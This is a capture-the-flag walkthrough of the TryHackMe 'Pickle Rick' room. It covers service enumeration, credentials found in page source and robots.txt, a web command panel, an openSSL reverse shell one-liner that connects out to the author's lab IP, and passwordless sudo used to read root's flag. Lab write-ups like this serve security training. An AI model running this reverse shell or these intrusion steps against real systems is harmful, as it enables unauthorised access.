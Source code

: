 # Pickle Rick

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

Tools Used:

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat


---

### 1. Nmap Scan

We'll scan the IP to see what services are running, first, let's visit the website.

![](img/picklerick01.png)

<br>

### 2. Website 

After visiting the website, we can't see anything that gives out any clues or ingridient.

After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

![](img/picklerick02.png)

After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

![](img/picklerick03.png)

<br>

### 3. gobuster & dirbuster

I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.
 
![](img/picklerick04.png)

The `robots.txt` file has a wierd text, i'll save it for later maybe: 

![](img/picklerick05.png)

After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

![](img/picklerick06.png)

<br>

### 4. Web login

We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

![](img/picklerick07.png)

And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

![](img/picklerick08.png)

<br>

### 5. Reverse Shell access

Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

![](img/picklerick09.png)

As we can see we've got access to the machine:

![](img/picklerick10.png)

<br>

### 6. First Flag

We can see that there is a .txt file, if we cat that we can see the first flag:

![](img/picklerick11.png)

<br>

### 7. Second Flag

After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

![](img/picklerick12.png)

<br>

### 8. Third Flag

Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:

![](img/picklerick13.png)

As we can see, we've got permissions on all commands without password.

So let's use sudo to see the contents of user root home folder, and we can see the third flag:

![](img/picklerick14.png)